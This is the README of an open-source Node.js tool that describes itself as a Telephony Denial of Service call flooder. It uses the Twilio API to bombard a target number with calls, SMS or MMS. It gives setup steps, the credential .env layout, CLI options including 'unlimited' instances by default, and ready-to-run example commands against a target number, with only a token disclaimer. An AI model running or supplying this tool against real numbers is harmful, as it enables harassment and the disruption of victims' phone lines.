 [![Open Source Love](https://badges.frapsoft.com/os/v1/open-source.png?v=103)](https://github.com/Jfaler/soup/blob/master/LICENSE.txt)

# TDoS Call Flooder : Soup-Js
* Open source call flooder using Twilio API, inspired by [Soup](https://github.com/Jfaler/soup).
* Inspiration from [Liu Shengxian]https://github.com/liushengxian/soup-js
* Inspiration from Project Mayhem

Note: I am not responsible for malicious activity that can be brought upon by this service. This project was forked due only by my own interest.

## Description 

This type of attack is reffered to as a TDoS or Telephony Denial of Service attack.   

## Version
`
2.0.0.0
`
## Prerequisites

* Read Legality https://www.twilio.com/legal/aup
* Sign up https://www.twilio.com/try-twilio
* Install Nodejs.

## Installation

1. clone the repo
1. `yarn install`

## Usage
Ensure you have a `.env` set with the following:
```
TWILIO_ACCOUNT_SID='<FILL IN SID>' 
TWILIO_AUTH_TOKEN='<FILL IN AUTH TOKEN>'
MSG_SID='<MESSAGE SERVICE SID>'
TWILIO_TWIML='<TWIML VOICE MESSAGE>'

MSG_SID is used for text
TWILIO_TWIML is used for calls
```

```
❯ yarn start --help
yarn run v1.22.10
$ node flood --help
Usage: flood [options]

Options:
  -t, --target <string>     target number where messages and media will be delivered
  -a, --action <string>     call or sms (default: "call")
  -n, --numbers <items>     numbers to use; comma separated
  -i, --instances <string>  number of call/sms instances to deliver (default: "unlimited")
  -d, --delay <string>      delay between calls/sms in seconds (default: "10")
  -m, --message <string>    message to send for sms
  -l, --imageLink <string>  media to send for mms (link)
  -h, --help                display help for command
```


## Examples
This will call the target number twice and speak the text the TWILIO_TWML url points to
```
yarn start --target 0001112222 --numbers 9998887777 --instances 2 --action call
```
This will send an SMS text to the target number twice with the message "I like trains"
```
yarn start --target 0001112222 --numbers 9998887777 --instances 2 --action sms --message "I like trains"
```
This will send an MMS text to the target number with an image defined in the link
```
yarn start --target 0001112222 --numbers 9998887777 --instances 1 --action sms --imageLink https://c1.staticflickr.com/3/2899/14341091933_1e92e62d12_b.jpg
```
This will send an MMS text to the target number with the message "lol" and an image defined in the link
```
yarn start --target 0001112222 --numbers 9998887777 --instances 1 --action sms --message "lol" --imageLink https://c1.staticflickr.com/3/2899/14341091933_1e92e62d12_b.jpg
```
## Authors
* **Ethan Wessel** - *Custom Version*
* **Misanya Liu** - *NodeJs Version* - [Misanya](https://github.com/liushengxian)
* **Justin Faler** - *Initial work* - [Jfaler](https://github.com/Jfaler)

## License

This project is licensed under the MIT License - see the LICENSE.md file for details.
